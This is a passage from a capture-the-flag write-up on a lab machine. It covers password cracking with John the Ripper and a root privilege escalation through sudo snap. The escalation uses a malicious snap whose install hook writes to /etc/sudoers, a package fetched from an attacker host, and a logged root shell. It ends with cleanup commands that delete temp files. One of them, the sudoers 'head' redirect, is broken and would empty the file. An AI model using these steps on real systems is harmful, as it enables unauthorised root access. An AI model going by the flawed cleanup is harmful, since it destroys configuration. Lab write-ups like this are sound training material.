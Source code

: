 ```shell
Almost done: Processing the remaining buffered candidate passwords, if any.                                                                                                                        
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist                                                                                                                              
booboo           (?)                                                                                                                                                                               
1g 0:00:00:00 DONE 2/3 (2021-07-23 11:04) 2.631g/s 421.0p/s 421.0c/s 421.0C/s asdfjkl;..bradley                                                                                                    
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                           
Session completed
```

From there, I was able to log in as `brucetherealadmin`.

Running `sudo -l`, I learned that `brucetherealadmin` is capable of running snap as `root`. Fortunately, GTFObins neatly outlines how to exploit that permission to get code execution as `root`. By default, the set of commands only runs `id`, so I took a lesson out of the [author of the dirty\_sock exploit's playbook](https://initblog.com/2019/dirty-sock/) and added `brucetherealadmin` to the `/etc/sudoers` file. Here's the bash script used to create the malicious snap package:

```sh
#!/bin/bash

COMMAND='echo "brucetherealadmin    ALL=(ALL:ALL) ALL" >> /etc/sudoers'
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

For simplicity's sake, I renamed the snap package to `privesc.snap`.

To execute on the system, I did the following:

```shell
[brucetherealadmin@armageddon-tmp]$ curl -o privesc.snap http://10.10.14.8/privesc.snap
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  19649      0 --:--:-- --:--:-- --:--:-- 19692
[brucetherealadmin@armageddon-tmp]$ sudo snap install privesc.snap --devmode --dangerous
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": exit status 1)
[brucetherealadmin@armageddon-tmp]$ sudo /bin/bash
[sudo] password for brucetherealadmin: 
[root@armageddon-tmp]# whoami
root
[root@armageddon-tmp]#
```

It's worth noting that the snap package didn't properly install as it wasn't a real program, but nonetheless the bash installation script executed anyways.

As a bonus, if you wanted to clean up after the fact you could run the following:

```shell
[root@armageddon-opt]# head -n -1 /etc/sudoers > /etc/sudoers
[root@armageddon-opt]# rm -rf /tmp/* /dev/shm/*
```
